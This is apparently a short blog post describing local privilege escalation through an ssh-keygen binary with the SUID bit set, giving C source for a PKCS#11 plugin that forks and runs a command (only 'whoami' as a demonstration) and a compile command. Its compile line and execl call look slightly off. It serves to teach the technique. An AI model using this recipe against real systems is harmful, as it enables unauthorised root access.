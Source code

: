 ```yaml
---
title: "Exploiting ssh-keygen SUID binary using custom plugin"
description: "The web framework for content-driven websites."
pubDate: "Dec 5 2023"
---
```


A little ago I encountered a system which had SUID bit set on `ssh-keygen`

SUID is a special permission that can be assigned to executable files. When an executable file has the SUID permission enabled, it allows users who execute the file to temporarily assume the privileges of the file's owner

ssh-keygen has the ability to load shared libraries during the execution of binary. You can also check it [here](https://gtfobins.github.io/gtfobins/ssh-keygen/)
We can take advantage of it, create our custom plugin which will execute system commands and load the plugin using ssh-keygen and become `root`

Here is an C example for the custom plugin:

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {
        execl("/usr/bin/whoami", NULL);
    } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

compile it as shared library(.so ) file 
```bash
gcc -c -fPIC rce.c -o lib.so
```
if you get `fatal error: pkcs11.h: No such file or directory` error, download [this file](https://github.com/OpenSC/libp11/blob/master/src/pkcs11.h), put it in the same directory with C file and try to compile again

Now run ssh-keygen with our custom plugin
![](../../assets/blog/images/ssh-keygen-suid/2.png)